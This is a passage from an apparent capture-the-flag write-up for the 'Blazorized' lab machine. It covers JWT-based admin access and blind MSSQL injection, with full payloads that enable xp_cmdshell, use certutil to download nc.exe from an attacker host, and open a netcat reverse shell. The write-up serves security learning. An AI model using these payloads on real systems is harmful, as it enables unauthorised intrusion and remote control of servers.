 Now you can copy the JWT token and import the token into the browser by creating a new item in Local Storage with the key set to `jwt` and the token as the value. Then navigate to `http://admin.blazorized.htb` and refresh the page to login.

![](../assets/images/writeups/blazorized/admin-panel.png)

## SQL Injection
The Super Admin Panel allows managing posts. One feature is looking for duplicate post titles that is vulnerable to blind SQL injection. This can be verified by the following payload:

```
' waitfor delay '00:00:05'--
```

This will wait for 5 seconds before executing the query. Now that we have verified that we have an SQL injection, let's explore what we can do with this. We can try to upload a Netcat binary onto the host to get a reverse shell with `xp_cmdshell`. We first have to enable this transaction in order to use it:

```
'; EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;-- -
```

We receive a notification confirming that the command executed without any errors.

![](../assets/images/writeups/blazorized/sqli-enable-shell.png)

Now lets try to get a reverse shell. We start by hosting the `nc.exe` binary with a Python webserver, start a netcat listener and then executing the following queries:

```
'; EXEC master.dbo.xp_cmdshell 'certutil -f -urlcache http://10.10.14.4:8888/nc.exe %TEMP%\nc.exe'; -- 
'; EXEC master.dbo.xp_cmdshell '%TEMP%\nc.exe 10.10.14.4 4444 -e cmd.exe'; -- 
```

After executing the payload we get a shell as `nu_1055` and can grab the user flag on their desktop.
